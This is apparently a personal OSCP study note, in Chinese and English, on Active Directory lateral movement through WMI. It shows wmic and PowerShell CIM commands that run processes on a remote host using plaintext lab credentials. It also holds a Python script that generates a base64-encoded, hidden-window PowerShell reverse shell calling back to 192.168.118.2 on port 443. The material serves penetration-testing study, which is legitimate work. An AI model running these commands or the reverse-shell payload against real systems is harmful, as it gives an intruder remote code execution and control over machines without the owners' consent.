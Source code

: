 # Lateral Movement
NTLM和Keberos不实用明文密码进行验证，并且微软的原生工具不支持使用密码hash进行身份认证。

## Active Directory Lateral Movement Techniques
Lateral时候记得提醒自己，enumerating!! 
### WMI && WinRM
#### WMI
Windows Management Instrumentation(WMI)，是一种面向对象的功能，方便任务自动化

WMI可以通过Win32_Process类的Create方法创建进程。他通过RPC在135上进行远程访问，并使用较高范围的端口进行数据传输

条件：需要一个属于管理员本地组的凭据，这个凭据也可以是域用户

```
cmd> wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"

ps> 
###传入用户名密码
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString; 

###通过_New-cimSession创建一个Common Information Model(CIM)
###specify DCOM as the protocol
$options = New-CimSessionOption -Protocol Dcom
###creat a new session
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
###自定义exec
$command = "calc"; 

###invoke the method
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command};

```

py脚本生成base64编码的powershell reverse shell命令 
/Users/baicai/Desktop/OSCP/smallTools/reverseShell_powershell.py
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)

```
